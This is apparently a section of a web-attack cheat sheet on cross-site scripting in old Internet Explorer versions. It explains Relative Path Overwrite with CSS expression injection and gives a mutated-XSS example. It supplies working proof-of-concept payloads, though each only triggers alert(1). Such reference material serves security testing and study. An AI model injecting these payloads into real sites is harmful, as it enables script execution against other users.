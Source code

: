 # XSS with Relative Path Overwrite - IE 8/9 and lower

You need these 3 components

```javascript
1) stored XSS that allows CSS injection. : {}*{xss:expression(open(alert(1)))}
2) URL Rewriting.
3) Relative addressing to CSS style sheet : ../style.css
```

A little example

```html
http://url.example.com/index.php/[RELATIVE_URL_INSERTED_HERE]
<html>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
<link href="[RELATIVE_URL_INSERTED_HERE]/styles.css" rel="stylesheet" type="text/css" />
</head>
<body>
Stored XSS with CSS injection - Hello {}*{xss:expression(open(alert(1)))}
</body>
</html>
```

Explanation of the vulnerability

> The Meta element forces IE’s document mode into IE7 compatible which is required to execute expressions. Our persistent text {}*{xss:expression(open(alert(1)))is included on the page and in a realistic scenario it would be a profile page or maybe a shared status update which is viewable by other users. We use “open” to prevent client side DoS with repeated executions of alert.
> A simple request of “rpo.php/” makes the relative style load the page itself as a style sheet. The actual request is “/labs/xss_horror_show/chapter7/rpo.php/styles.css” the browser thinks there’s another directory but the actual request is being sent to the document and that in essence is how an RPO attack works.

Demo 1 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo.php`
Demo 2 at `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo2.php/fakedirectory/fakedirectory2/fakedirectory3`
MultiBrowser : `http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo3.php`

From : `http://www.thespanner.co.uk/2014/03/21/rpo/`

## Mutated XSS for Browser IE8/IE9

```javascript
<listing id=x>&lt;img src=1 onerror=alert(1)&gt;</listing>
<script>alert(document.getElementById('x').innerHTML)</script>
```

IE will read and write (decode) HTML multiple time and attackers XSS payload will mutate and execute.


## References

- [TODO](TODO)